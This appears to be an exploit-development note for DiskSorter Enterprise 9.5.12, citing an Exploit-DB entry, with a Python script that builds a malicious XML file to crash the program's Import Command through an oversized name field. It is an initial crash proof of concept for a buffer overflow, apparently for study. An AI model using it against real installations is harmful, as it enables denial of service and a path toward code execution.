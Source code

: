 # DiskSorterEnterprise_9.5.12
Downloaded from: https://www.exploit-db.com/exploits/41771

Vulnerable function: Command -> Import Command

## Initial Crash
```py
import os,struct

CRASH_LEN = 5000  # change me

payload = "A" * CRASH_LEN

#FILE
file='<?xml version="1.0" encoding="UTF-8"?>\n<classify\nname=\'' + payload + '\n</classify>'

f = open('Exploit.xml', 'w')
f.write(file)
f.close()
```
